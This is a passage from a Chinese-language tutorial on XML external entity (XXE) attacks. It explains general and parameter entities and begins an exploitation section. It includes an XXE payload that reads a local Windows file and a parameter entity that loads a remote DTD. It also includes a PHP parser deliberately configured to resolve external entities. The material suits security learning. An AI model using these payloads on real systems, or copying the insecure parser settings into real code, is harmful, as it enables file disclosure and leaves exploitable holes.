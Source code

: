 这个在我们的攻击中也可以起到和 SYSTEM 一样的作用

**重点二：**

我们上面已经将实体分成了两个派别（内部实体和外部外部），但是实际上从另一个角度看，实体也可以分成两个派别（通用实体和参数实体）

**1.通用实体**

用 &实体名; 引用的实体，他在DTD 中定义，在 XML 文档中引用

**示例代码：**

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE updateProfile [<!ENTITY file SYSTEM "file:///c:/windows/win.ini"> ]> 
<updateProfile>  
    <firstname>Joe</firstname>  
    <lastname>&file;</lastname>  
    ... 
</updateProfile>
```

**2.参数实体：**

(1)使用 `% 实体名`(**这里面空格不能少**) 在 DTD 中定义，并且**只能在 DTD 中使用 %实体名; 引用**
(2)只有在 DTD 文件中，参数实体的声明才能引用其他实体
(3)和通用实体一样，参数实体也可以外部引用

**示例代码：**

```
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
%an-element; %remote-dtd;
```

**抛转：**

参数实体在我们 Blind XXE 中起到了至关重要的作用

## 0x04利用

### 1、有回显读本地敏感文件(Normal XXE)

**示例代码：**

**xml.php**

```
<?php

    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;

?>
```
